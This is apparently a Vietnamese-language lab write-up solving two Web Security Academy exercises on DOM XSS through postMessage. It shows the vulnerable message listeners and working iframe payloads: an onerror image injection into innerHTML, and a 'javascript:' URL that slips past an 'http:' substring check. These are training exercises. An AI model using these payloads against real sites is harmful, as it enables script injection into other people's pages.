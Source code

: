 ## DOM-based vulnerabilities

### Lab: DOM XSS using web messages

>This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.

<img width="880" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/9a2d0559-32a1-47e3-83b0-cc5093eb0281">

Vừa vào web đã thấy `[object Object]` in ra. View-source ta thấy đoạn sau:
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Đoạn mã này là đoạn mã nhận message từ [postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) API. `postMessage` là phương thức được tạo ra để giúp cửa sổ tương tác với các iframe. Ở đây không thấy filter gì, do đó ta có thể postMessage đơn giản như sau:
```html
<iframe src="https://0afb001703b1cf5d80dddab600ae0097.web-security-academy.net" id="ifr" onload=send()></iframe>
<script>
function send() {
    ifr.contentWindow.postMessage("<img src=1 onerror=print()>", "*");
}
</script>
```
<img width="908" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/22a72c4b-a9c8-466c-86c7-c1f238ef1cb2">

### Lab: DOM XSS using web messages and a JavaScript URL

Tương tự như bài trước, view-source ta thấy đoạn mã sau:
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Cũng là postMessage API, Đoạn mã này thực hiện check xem url từ data gửi đến có chứa `http:` hay `https:` không. Nếu có thì set `href = url`.

Payload:
```html
<iframe src="https://0a23001103019b7282738dab00cc001e.web-security-academy.net/" id="ifr" onload=send()></iframe>
<script>
function send() {
    ifr.contentWindow.postMessage("javascript:print()//http:", "*");
}
</script>
```
